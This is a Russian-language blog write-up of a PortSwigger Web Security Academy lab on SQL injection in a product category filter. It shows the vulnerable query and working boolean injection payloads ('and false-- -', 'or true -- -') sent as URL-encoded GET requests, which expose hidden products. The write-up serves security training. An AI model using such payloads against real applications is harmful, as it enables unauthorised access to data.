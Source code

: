 ```yaml
---
title: "SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
date: 2025-06-06
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/sql-injection-apprentice/sql-injection/lab-retrieve-hidden-data"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **SQL injection** в фильтре категорий продуктов. Когда пользователь выбирает категорию, приложение выполняет SQL-запрос, подобный следующему:

```
https://0ab900ec030c754b80e840ee008c0060.web-security-academy.net/
```

```sql
SELECT
	*
FROM
	products
WHERE
	category = 'Gifts' AND released = 1
```

Чтобы решить лабораторную задачу, нужно выполнить атаку с помощью `SQLi`, в результате которой приложение должно отобразить один или несколько невыпущенных продуктов.

## Solution

На странице вижу фильтр товаров:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/1.png){: height="200" .align-center}


При выборе какого либо из них меняется `URL`:

```
https://0ab900ec030c754b80e840ee008c0060.web-security-academy.net/filter?category=Accessories
```


Мне известно, что это `SQL`-инъекция, а значит нужно было бы подобрать обрамление запроса, но сам запрос у меня есть из условия лабы:

```sql
SELECT
	*
FROM
	products
WHERE
	category = 'Accessories' AND released = 1
```


Для обрамления используется одинарная кавычка, значит у нас должен сработать следующий вариант запроса:

```sql
SELECT
	*
FROM
	products
WHERE
	category = 'Accessories' and false-- - AND released = 1
```

При таком запросе мы должны получить пустую страницу. 


Для теста нам нужно передать значение `Accessories' and false-- -` через `GET`-запрос:

```
https://0ab900ec030c754b80e840ee008c0060.web-security-academy.net/filter?category=Accessories%27%20and%20false%20--%20-
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/2.png){: height="200" .align-center}


Для получения всех товаров передадим такое условие, которое всегда является истиным. Например `a' or true -- -`.

```
https://0ab900ec030c754b80e840ee008c0060.web-security-academy.net/filter?category=a%27%20or%20true%20--%20-
```

Мы получили весь список товаров)


До:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/3.png){: height="200" .align-center}


После:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/4.png){: height="200" .align-center}


Лаба пройдена:3 ☕